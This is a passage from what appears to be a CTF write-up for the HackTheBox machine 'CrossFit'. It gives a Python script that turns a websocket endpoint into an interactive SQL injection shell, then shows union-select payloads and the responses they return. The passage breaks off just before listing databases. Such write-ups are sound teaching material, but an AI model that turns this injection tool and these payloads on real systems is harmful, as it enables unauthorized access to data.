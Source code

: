     
    
    #!/usr/bin/env python3
    
    import json
    import websocket
    from cmd import Cmd
    
    
    class Term(Cmd):
        prompt = "injection> "
    
        def __init__(self):
            self.connect()
            super().__init__()
    
        def connect(self):
            self.ws = websocket.create_connection("ws://gym.crossfit.htb/ws/")
            data = json.loads(self.ws.recv())
            self.token = data["token"]
    
        def send_ws(self, params):
            self.ws.send(
                f'{{"message":"available","params":"{params}", "token": "{self.token}"}}'
            )
            data = json.loads(self.ws.recv())
            self.token = data["token"]
            print(data["debug"])
    
        def default(self, args):
            try:
                self.send_ws(args)
            except websocket._exceptions.WebSocketConnectionClosedException:
                self.connect()
                self.send_ws(args)
                
        def do_exit(self, args):
            return True
    
    
    term = Term()
    term.cmdloop()
    

Running it, I can send the same kinds of payloads shown above:

    
    
    oxdf@parrot$ python3 sqli_shell.py
    injection> 1
    [id: 1, name: 1-month]
    injection> 3
    [id: 3]
    injection> 3 union select 1,2
    [id: 1, name: 2]
    

I can easily list the databases as well:

    
    